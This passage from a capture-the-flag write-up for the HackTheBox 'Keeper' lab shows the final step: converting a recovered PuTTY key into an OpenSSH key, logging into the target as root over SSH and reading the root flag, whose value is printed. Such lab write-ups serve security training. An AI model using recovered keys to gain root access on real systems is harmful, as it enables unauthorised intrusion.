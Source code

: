 I generate the `id_rsa` in a specific format, and I change permissions :
```sh
┌──(kali㉿kali)-[~/keeper.htb]
└─$  puttygen Putty-User-Key-File.txt -O private-openssh -o id_rsa

┌──(kali㉿kali)-[~/keeper.htb]
└─$ chmod 600 id_rsa   
```

Now I login like root and I find the root flag:
```
┌──(kali㉿kali)-[~/keeper.htb]
└─$ ssh -i id_rsa  root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# cat root.txt
ae8f1cc3dc9ace2a47f9c6d94a48ff7b
root@keeper:~# 
```






